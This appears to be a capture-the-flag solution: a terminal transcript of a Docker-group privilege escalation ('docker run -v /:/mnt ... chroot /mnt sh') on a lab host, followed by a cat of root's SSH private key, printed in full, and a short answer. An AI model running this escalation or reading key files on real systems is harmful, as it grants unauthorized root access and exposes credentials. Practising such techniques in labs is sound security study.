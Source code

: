 ```
r00t@ultratech-prod:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
r00t@ultratech-prod:~$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami  
root
# /bin/bash
root@ad624c3147a8:~# ls -a
.  ..  .bash_history  .bashrc  .cache  .emacs.d  .gnupg  .profile  .python_history  .ssh  private.txt
root@ad624c3147a8:~# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
tnuyiubefzK5DyDEf2YdhEE7PJbMBjnCWQJCtOaSCz/RZ7ET9pAMvo4MvTFs3I97
eDM3HWDdrmrK1hTaOTmvbV8DM9sNqgJVsH24ztLBWRRU4gOsP4a76s0CgYEA0LK/
/kh/lkReyAurcu7F00fIn1hdTvqa8/wUYq5efHoZg8pba2j7Z8g9GVqKtMnFA0w6
t1KmELIf55zwFh3i5MmneUJo6gYSXx2AqvWsFtddLljAVKpbLBl6szq4wVejoDye
lEdFfTHlYaN2ieZADsbgAKs27/q/ZgNqZVI+CQcCgYAO3sYPcHqGZ8nviQhFEU9r
4C04B/9WbStnqQVDoynilJEK9XsueMk/Xyqj24e/BT6KkVR9MeI1ZvmYBjCNJFX2
96AeOaJY3S1RzqSKsHY2QDD0boFEjqjIg05YP5y3Ms4AgsTNyU8TOpKCYiMnEhpD
kDKOYe5Zh24Cpc07LQnG7QKBgCZ1WjYUzBY34TOCGwUiBSiLKOhcU02TluxxPpx0
v4q2wW7s4m3nubSFTOUYL0ljiT+zU3qm611WRdTbsc6RkVdR5d/NoiHGHqqSeDyI
6z6GT3CUAFVZ01VMGLVgk91lNgz4PszaWW7ZvAiDI/wDhzhx46Ob6ZLNpWm6JWgo
gLAPAoGAdCXCHyTfKI/80YMmdp/k11Wj4TQuZ6zgFtUorstRddYAGt8peW3xFqLn
MrOulVZcSUXnezTs3f8TCsH1Yk/2ue8+GmtlZe/3pHRBW0YJIAaHWg5k2I3hsdAz
bPB7E9hlrI0AconivYDzfpxfX+vovlP/DdNVub/EO7JSO+RAmqo=
-----END RSA PRIVATE KEY-----
```
Answer: MIIEogIBA
